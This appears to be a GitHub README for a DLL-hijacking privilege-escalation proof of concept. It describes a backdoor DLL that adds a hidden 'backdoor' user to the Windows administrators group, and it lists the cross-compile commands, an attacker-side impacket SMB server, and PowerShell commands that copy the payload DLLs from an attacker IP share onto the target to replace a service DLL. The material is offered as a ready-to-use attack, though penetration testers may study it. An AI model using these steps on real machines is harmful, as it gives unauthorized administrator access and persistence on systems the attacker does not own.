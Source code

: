# Backdoor DLL Hijack POC

Proof of Concept for DLL Hijacking privilege escalation technique (without reverse shell).

This repo contains 3 files:

- poc.cpp: A simple cpp script with a ping command hardcoded made for testing. You can add your IP, compile, start a tcpdump listener, hijack DLL and verify code execution.

- backdoor.cpp: The actual exploit - will add a user named 'backdoor' once compiled and executed, then this user will be added to administrator's group.

- backdoor.dll: Compiled backdoor.cpp, can be injected directly into the target.

## Instructions

### Cross-Compilation

In order to cross-compile backdoor.cpp and poc.cpp we can use x86_64-w64-mingw32-gcc:

```bash
x86_64-w64-mingw32-gcc -shared -o backdoor.dll backdoor.cpp
```

```bash
x86_64-w64-mingw32-gcc -shared -o poc.dll poc.cpp
```

### Transfer

Transfer to the target machine (in this case we will use impacket-smbserver):

#### Start SMB Server

From attacker machine:

```bash
impacket-smbserver {ShareName} . -smb2support
```

##### Hijack DLL

From target Windows machine:

```powershell
copy \\Attacker_IP\ShareName\poc.dll .
copy \\Attacker_IP\ShareName\backdoor.dll .
# move any of the two into target DLL & restart service
```
